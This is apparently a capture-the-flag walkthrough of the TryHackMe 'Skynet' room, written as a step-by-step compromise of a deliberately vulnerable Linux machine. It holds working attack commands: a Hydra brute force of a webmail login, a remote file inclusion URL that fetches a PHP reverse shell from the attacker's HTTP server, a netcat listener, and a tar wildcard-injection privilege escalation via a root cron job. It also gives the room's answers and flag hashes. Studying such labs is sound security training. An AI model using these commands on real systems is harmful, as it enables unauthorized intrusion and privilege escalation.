 # [Skynet](https://tryhackme.com/r/room/skynet)

![Skynet](./images/Skynet.png)

[Skynet](https://tryhackme.com/r/room/skynet) is listed as an easy room. A vulnerable Terminator themed Linux machine. An overview of what we’ll be using is listed here:

* Nmap
* Gobuster
* enum4linux
* Hydra
* Searchsploit

![IP](./images/IP.png)

## Task 1 - Deploy and compromise the vulnerable machine!

![logo](./images/logo.png)

Are you able to compromise this Terminator themed machine?

![blog](./images/blog.png)

You can follow our official walkthrough for this challenge on [our blog](https://blog.tryhackme.com/skynet-writeup/).

## Enumeration

* Port scan with **Nmap**

	```
	nmap -sC -sV $IP -oN nmap-scan
	```

	![nmap](./images/nmap.png)

* Directory scan with **Gobuster**

	```
	gobuster dir -u $IP -w /usr/share/wordlists/dirb/big.txt -t50 | tee gobuster-default
	```

	![gobuster](./images/gobuster.png)

* Enumeration SMB with **enum4linux**
	
	```
	enum4linux $IP
	```

* Connect to smbclient

	```
	smbclient //$IP/anonymous
	ls
	```

	![login](./images/login.png)

* Download and open `attention.txt` file

	![attention](./images/attention.png)

* Change to logs directory and download log file

	![logs](./images/logs.png)

* Brute force login with hydra

	```
	hydra -l milesdyson -P log1.txt $IP http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^:incorrect"
	```

	![hydra](./images/hydra.png)

* Login to webmail with our credential

	![webmail](./images/webmail.png)

* Open email `Samba Reset Password` & get the password smb

	![password](./images/password.png)

* Connect to smbclient with `milesdyson` credential

	```
	smbclient -U milesdyson //$IP/milesdyson
	```

	![smbclient](./images/smbclient.png)

* Download `importart.txt` on noted folder and view the file

	![important](./images/important.png)

* Directory scan on a scret page with **Gobuster**

	```
	gobuster dir -u $IP/45kra24zxs28v3yd -w /usr/share/wordlists/dirb/common.txt -t50 | tee gobuster-secret
	```

	![secret-page](./images/secret-page.png)

* Open the webpage `http://10.10.33.100/45kra24zxs28v3yd/administrator/`

	![web-cuppa](./images/web-cuppa.png)

* Searchsploit for `cuppa`

	![searchsploit](./images/searchsploit.png)

* Download `searchsploit` file & Read the file

	```
	searchsploit -m 25971
	```

	![download](./images/download.png)

	![payload](./images/payload.png)

* Open `http://revshells.com` and create PHP reverse shell with our machine IP and Port
	
	![revshells](./images/revshells.png)

* Start Listener on attacker machine

	```
	nc -lvnp 8888
	```

* Start HTTP server to in the folder `revshell.exe`

	```
	python3 -m http.server
	```

	![http.server](./images/http.server.png)

* Request `revshell.exe` link to get reverse shell

	```
	http://10.10.237.99/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.4.60.166:8000/revshell.php
	```

	![web-access](./images/web-access.png)

	![revshells.download](./images/revshells.download.png)

	![get-shell](./images/get-shell.png)

* Spawn a shell with python

	```
	python -c 'import pty;pty.spawn("/bin/bash")'
	```

	![python-spawn](./images/python-spawn.png)

* Get the `user.txt`

	![user-txt](./images/user-txt.png)

* Now let’s see what we have in miles’ home directory

	![backups](./images/backups.png)

* There is a backup script (backup.sh) that compresses the entire /var/www/html directory with tar and saves the archive to miles’ home directory. The script is executed by root every minute, we can see in crontab

	![crontab](./images/crontab.png)

* We can perfom a wildcard injectioncan to execute a privileged shell with tar executed by root as follows

	```
	cd /var/www/html
	printf '#!/bin/bash\nchmod +s /bin/bash' > shell
	echo "" > "--checkpoint-action=exec=sh shell"
	echo "" >> --checkpoint=1
	```

	![privileged](./images/privileged.png)

* Wait for 1 minute and executed `/bin/bash -p` and get a root shell

	![root](./images/root.png)

* Get the `root.txt`

	![root-txt](./images/root-txt.png)

### Answer the questions below

* What is Miles password for his emails?

	`cyborg007haloterminator`

	![hydra](./images/hydra.png)

* What is the hidden directory?

	`/45kra24zxs28v3yd`

	![important](./images/important.png)

* What is the vulnerability called when you can include a remote file for malicious purposes?

	`Remote File Inclusion`

	![searchsploit](./images/searchsploit.png)

* What is the user flag?

	`7ce5c2109a40f958099283600a9ae807`

* What is the root flag?

	`3f0372db24753accc7179a282cd6a949`


